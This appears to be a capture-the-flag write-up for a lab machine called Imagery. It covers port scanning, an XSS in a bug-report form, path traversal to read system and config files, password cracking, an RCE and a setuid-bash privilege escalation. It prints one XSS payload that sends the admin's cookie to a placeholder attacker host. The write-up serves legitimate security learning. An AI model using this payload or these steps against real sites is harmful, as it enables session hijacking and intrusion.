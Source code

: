 # Imagery

![Logo](images/icon.png)

## Port enumeration

First thing I did was scaning the objetive with nmap.

```bash
nmap -p- --open -T5 -n -vvv -Pn imagery.htb
```

This reveals 2 open ports, 22 and 8000

```
22/tcp    open    ssh        syn-act    ttl    63
8000/tcp  open    http-alt   syn-act    ttl    63
```

I scan this two services to reveal more information.

```bash
nmap -p 22,8000 -sCV imagery.htb
```

This reveal who, the http service in port 8000 is a python server.

![Logo](images/image18.png)

## Web enumeration

![Logo](images/image7.png)

The first thing I saw was the page home, here, I can only find 2 functional pages, ```upload```, where i can upload an image in the server, I tried to exploit this page for a wile, but nothing worked.

![Logo](images/image21.png)

The other page I found was ```report a bug```, this panel allow me to send a report to the admin, it seems like it can be vulnerable with XSS, so, I test it and I confirmed the vulnerability.

![Logo](images/image25.png)

## XSS Explotation

I send a payload who will allow me to steal the admin cookies.

```html
<img scr=x onerror="new Image().src='http://<myip>:<myport>/?='+encodeURIComponent(document.cookie)"/>
```

This sends me the session cookie to my python server.

![Logo](images/image13.png)

## Admin panel enumeration

With that cookie, I were allowed to log in the page as admin.

![Logo](images/image37.png)

As admin, I had access to ```Admin Panel```.

![Logo](images/image1.png)

Here, I can see who I can download the logs from 2 users, admin and testuser.

After reading these logs, I didnt found nothing interesting, but, after intercept the http request with  burpsuite, I found a path traversal vulnerability.

![Logo](images/image26.png)

## Path traversal explotation

I discovered with /etc/passwd who the 2 users in this machine are web and mark

After a bit, I read the config files, where I found some credentials.

![Logo](images/image27.png)

With john the ripper, I was able to obtain the testuser password.

![Logo](images/image5.png)

Now, I loged in the machine ad testuser, but, I cant see mayor diferences, so, I read the source code.

![Logo](images/image40.png)

And there it is, a RCE, and this feature is only available to testuser.

## RCE exploitation

I just update a image and use the Visual Image Transform feature.

![Logo](images/image12.png)

With burpsuite, in injected the code.

![Logo](images/image22.png)

And with that, I obtained a shell.

![Logo](images/image30.png)

## Local enumeration

After a while i found, in /var/backup, 2 interesting files.

![Logo](images/image31.png)

For some reason I found the root flag there — this must be an error — so I continued with the web backup.

## AES brute force

The backup is encrypted with AES, so I needed to find the password by brute force.

![Logo](images/image17.png)

I made a python script to attack with dictionary.

![Logo](images/image28.png)

Here, I found a oldest version of the app, and, in the database, i found 2 more users and their hashes, web, and mark.

![Logo](images/image2.png)

With john, I reveal the mark password.

![Logo](images/image9.png)

And, with that, I log as mark with su.

![Logo](images/image23.png)

## Privilege scalation

After a short enumeration I discovered that ```/bin/bash``` has the setuid bit set.

![Logo](images/image16.png)

I only needed to execute this binary as its owner, and I became root.

![Logo](images/image20.png)

